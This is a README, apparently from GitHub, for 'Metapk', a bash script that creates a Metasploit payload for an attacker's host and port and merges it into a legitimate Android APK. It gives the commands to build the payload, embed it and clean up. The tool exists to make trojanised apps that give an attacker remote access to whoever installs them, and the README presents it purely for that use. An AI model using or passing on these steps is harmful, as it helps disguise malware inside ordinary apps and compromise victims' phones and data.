 # Metapk
Merge Metasploit Payload And Legit Apk With Ease.

## Let's Dive In
Clone The Repository To Your Machine

In Case You Don't Know How To Do That, Here's The Command,

```
git clone 
```

### Dependencies
*	A Pc With Bash Shell ( Most Suitably Linux)
*	A Chunk Of Processing Power From Your Brain

## Usage
To Create A Payload Only;
```
./metapk -c <lhost> <lport>
```

To Merge Payload And Original Apk;
```
./metapk -e <original apk> <payload>
```
CleanUp The Present Working Directory;
```
./metapk --clean
```

#### Note: For Best Results, Copy Original Apk And Payload Into Metapk Directory.
##### Ps: There Shouldn't Be Space Between Apk Names. (Working On That).
######PPS:This Script Won't Work For All Apks
